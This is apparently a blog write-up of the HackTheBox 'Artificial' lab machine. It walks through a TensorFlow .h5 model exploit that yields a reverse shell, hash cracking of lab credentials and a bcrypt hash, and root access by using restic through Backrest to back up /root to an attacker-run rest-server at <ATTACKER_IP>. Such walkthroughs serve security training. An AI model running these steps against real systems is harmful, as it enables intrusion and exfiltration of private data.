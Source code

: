 ```yaml
---
title: " HackTheBox Artificial Writeup"
date: 2025-09-29
categories: [HTB, Machines]
tags: [Linux, CVE, restic, snapshots]
image:
  path: /assets/Artificial-htb/1.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Artificial HTB — blog writeup cover"
---
```


## Nmap Scan

I started by running a full TCP scan on the target using:
```shell
sudo nmap 10.10.11.74 -T4 -A -open -p-
```
![nmap](/assets/Artificial-htb/nmap-scan-Artificial.png)
I mapped the domain to the IP in ```/etc/hosts``` and discovered a file upload feature accepting only ```.h5``` files, commonly used for TensorFlow models.
![upload](/assets/Artificial-htb/upload.png)
Research uncovered a TensorFlow CVE enabling RCE via ```.h5``` files. Key resources:
- [TensorFlow RCE Research ](https://mastersplinter.work/research/tensorflow-rce/)
- [PoC Demo](https://github.com/Splinter0/tensorflow-rce?tab=readme-ov-file)

## TensorFlow Remote Code Execution with Malicious Model

![docker](/assets/Artificial-htb/docker.png)
To match the server’s environment ```(python:3.8, tensorflow==2.13.1)```, I used Docker to avoid ```load_model()``` issues due to version mismatches. I built the image:
```shell
sudo docker build -t artificial-exploit .
```
I ran the container, mounting the current directory to ```/app``` for file transfer:
```shell
sudo docker run -it -v $(pwd):/app artificial-exploit
```
Using the provided ```exploit.py``` script (modified with my IP ```10.10.16.40``` for the reverse shell), I generated exploit.h5:
![h5](/assets/Artificial-htb/h5.png)
I generated the ```exploit.h5``` file using:
```shell
python3 exploit.py
```
![exploit](/assets/Artificial-htb/exploit.png)
I uploaded exploit.h5 to the server 
![model](/assets/Artificial-htb/model.png)
and set up a listener:
```shell
nc -nvlp 6666
```
This granted a reverse shell.
![nc](/assets/Artificial-htb/nc.png)

## User.txt


For better functionality, I spawned a fully interactive TTY:
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
I found a ```users.db``` SQLite database and queried it:
![creds](/assets/Artificial-htb/creds.png)
This revealed user credentials, including hashed passwords. I cracked the hash for ``gael`` yielding:
![crack](/assets/Artificial-htb/crack.png)
```shell
gael:mattp005numbertwo
```
After cracking the password for the user ```gael```, I switched to their account:
![su](/assets/Artificial-htb/su.png)

successfully gaining access to the gael user account.

> Persistent SSH Access
{: .prompt-tip }
To enable easier file transfers and persistent access, I generated an ```ed25519 key pair``` on my Kali machine for security and efficiency:
```shell
ssh-keygen -t ed25519 -C "you@youremail" -f ~/.ssh/id_ed25519
```
I copied the public key to the server:
```shell
ssh-copy-id -i ~/.ssh/id_ed25519.pub gael@10.10.11.74
```
Then connected via SSH:
```shell
ssh -i ~/.ssh/id_ed25519 gael@10.10.11.74
```
![ssh](/assets/Artificial-htb/ssh.png)

## Backrest_root's Credits

I transferred and executed ```linpeas.sh``` to enumerate the system for privilege escalation vectors. While Linux check scripts can be used, ```linpeas.sh``` is faster and more comprehensive.
![linpease](/assets/Artificial-htb/linpease.png)
linpeas.sh pointed me to ```/var/backups```, where I found ```backrest_backup.tar.gz```, a backup file containing critical data.
![backup](/assets/Artificial-htb/backup.png)
![backup2](/assets/Artificial-htb/backup2.png)
I transferred ```backrest_backup.tar.gz``` to my machine, extracted it, and found a ```config.json``` file:
![backup3](/assets/Artificial-htb/backup3.png)
![config](/assets/Artificial-htb/config.png)
The ```config.json``` contained a Base64-encoded bcrypt hash for the ```backrest_root``` service account:
```shell
{
  "name": "backrest_root",
  "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
}
```
I decoded the Base64 string to extract the bcrypt hash:
```shell
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d

Output:

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
I used hashcat to crack the hash with the ```rockyou.txt``` wordlist:
```shell
hashcat -m 3200 hash.hash ../rockyou.txt --force
```
![hash](/assets/Artificial-htb/hash.png)
This revealed the password for ```backrest_root```:
```shell
backrest_root:!@#$%^
```

## Root.txt

![backr](/assets/Artificial-htb/backr.png)

Backrest, a web service executing system commands with root privileges, allows command injection via its interface (e.g., "Run Command" tab).<br>
According to GTFOBins, restic running with sudo can read or transfer sensitive files, such as those in ```/root```, when executed with elevated privileges.
![restic](/assets/Artificial-htb/restic.png)

I set up a ```rest-server``` on my attacker machine to receive backup data:
```shell
rest-server --path /tmp/restic-data --listen :12345 --no-auth 
```
![attack](/assets/Artificial-htb/attack.png)
This server stores data locally in /tmp/restic-data.

On the target’s Backrest interface ```(Run Command tab)```, I executed restic commands. Since Backrest prepends the binary ```/opt/backrest/restic```, I only provided the arguments.
- Initialize a repository:  
![repo](/assets/Artificial-htb/repo.png)
```shell
-r rest:http://<ATTACKER_IP>:12345/exploit init
```
![s1](/assets/Artificial-htb/s1.png)
- Back up the ```/root``` directory:
```shell
-r rest:http://<ATTACKER_IP>:12345/exploit backup /root
```
![s2](/assets/Artificial-htb/s2.png)
- On my attacker machine, I used restic to view snapshots and restore the ```backed-up``` data:
```shell
restic -r /tmp/restic-data/exploit snapshots
restic -r /tmp/restic-data/exploit restore <snapshot-id> --target ./restore
cat ./restore/root/root.txt
```
![attack](/assets/Artificial-htb/attack.png)
![root](/assets/Artificial-htb/root.png)
This successfully retrieved the ```root.txt``` file.